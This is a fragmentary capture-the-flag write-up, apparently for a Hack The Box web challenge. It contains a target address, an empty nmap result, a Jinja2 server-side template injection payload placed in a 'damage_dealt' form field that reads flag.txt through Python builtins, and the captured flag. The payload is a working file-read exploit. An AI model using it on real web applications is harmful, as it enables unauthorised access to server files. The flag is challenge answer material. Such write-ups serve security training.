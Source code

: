 
94.237.61.57:36486

nmap

```sh
Nmap scan report for 94.237.55.61




```


damage_dealt={{ get_flashed_messages.__globals__.__builtins__.open("flag.txt").read() }}&damage_taken=110&spells_cast=2&turns_survived=3&outcome=defeat&battle_duration=17.474

HTB{Fl4m3_P34ks_Tr14l_Burn5_Br1ght_6c2275344e92bbf887227aebaf4aebe3}